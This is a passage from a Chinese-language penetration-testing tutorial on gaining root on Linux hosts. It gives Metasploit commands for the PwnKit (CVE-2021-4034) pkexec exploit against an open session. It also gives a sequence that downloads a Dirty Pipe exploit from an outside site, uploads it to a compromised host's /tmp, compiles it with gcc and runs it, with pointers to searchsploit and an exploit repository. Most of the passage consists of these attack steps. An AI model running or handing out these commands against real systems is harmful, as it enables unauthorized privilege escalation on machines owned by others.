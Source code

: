 



3.3 使用EXP测试

3.3.1 使用msf提权

```
use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
set session 5
exploit
```

![image-20230105071319887](../../images//image-20230105071319887.png)



3.3.2 使用通用EXP

```
wget https://haxx.in/files/dirtypipez.c
upload /root/dirtypipez.c /tmp
shell
cd /tmp
gcc dirtypipez.c -o aaa
chmod +x aaa
./aaa /root/tq.txt 1 $'\xxxxx\n'
```

大多数Linux的提权EXP均为c的文件，为此通用的套路为gcc xxx.c -o aaa后执行（可参阅下dirty-cow的机制）。

poc的查找可以通过searchsploit或https://github.com/SecWiki/linux-kernel-exploits
